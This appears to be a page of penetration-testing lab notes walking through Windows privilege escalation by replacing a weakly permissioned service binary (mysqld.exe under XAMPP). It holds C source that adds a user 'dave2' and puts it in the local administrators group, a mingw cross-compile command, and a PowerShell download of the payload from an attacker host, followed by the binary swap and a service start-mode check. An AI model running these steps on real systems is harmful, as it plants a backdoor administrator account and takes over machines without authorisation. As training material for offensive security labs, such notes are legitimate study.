 Determining privileges on binaries associated with the services:

```batch
icacls "C:\xampp\apache\bin\httpd.exe"
icacls "C:\xampp\mysql\bin\mysqld.exe"
```

Assuming we found a binary with weak permissions. Let's replace it with a very basic executable. Starting with creating the .c file on Kali:

```c
#include <stdlib.h>

int main()
{
    int i;
    
    i = system ("net user dave2 password123! /add");
    i = system ("net localgroup administrators dave2 /add");
    
    return 0;
}
```

Next, we'll cross-compile the code with _mingw-64_ since we know the target is 64-bit.

```bash
kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

Now we'll transfer the **adduser.exe** to the target and replace the original **mysqld.exe** with ours.

```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

Now that the binary is replaced, we need to have the service execute it.

```powershell
PS C:\Users\dave> net stop mysql
System error 5 has occurred.

Access is denied.
```

Checking startmode of the server:

{% code overflow="wrap" lineNumbers="true" %}
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Name  StartMode
----  ---------
mysql Auto
```
{% endcode %}
